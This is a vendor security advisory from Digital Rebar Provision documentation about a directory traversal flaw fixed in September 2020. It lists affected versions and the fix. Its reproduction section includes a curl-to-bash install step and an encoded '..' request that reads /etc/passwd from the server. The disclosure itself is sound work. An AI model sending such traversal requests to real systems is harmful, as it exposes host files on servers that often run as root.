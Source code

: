 .. Copyright (c) 2020 RackN Inc.
.. Licensed under the Apache License, Version 2.0 (the "License");
.. Digital Rebar Provision documentation under Digital Rebar master license
.. index::
  pair: Digital Rebar Provision; Security

.. _rs_cve_20200924a:

CVE 20200924a: Web requests can navigate outside of DRP controlled areas
========================================================================

DRP server incorrectly respects using `..` for navigation if resulting path is outside of managed areas.  This potentially allowed bad actors to access the host file system.

* Classification: Directory Traversal
* Reported: Sept 24, 2020
* Fixed: Sept 24, 2020
* Addressed In: v4.5, v4.4.7, v4.3.8, v4.2.17

Recommendation
--------------

Users are advised to apply this patch as soon as possible.   Patching involves replacing the DR-SERVER binary that closes matches the currently deployed version.


Mitigation
----------

Code was added to prevent out of bounds navigation.

Steps to reproduce
------------------

  :: 

    docker run --rm -it ubuntu /bin/bash

    apt update && apt install -y curl
    cd /opt
    mkdir drp ; cd drp
    curl -fsSL get.rebar.digital/stable | bash -s -- --isolated install
    ./dr-provision --base-root=`pwd`/drp-data --local-content="" --default-content="" > drp.log 2>&1 &
    curl -k https://127.0.0.1:8092/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd

The above results on the contents of /etc/passwd being shown. This is particularly bad given that this application generally runs as root.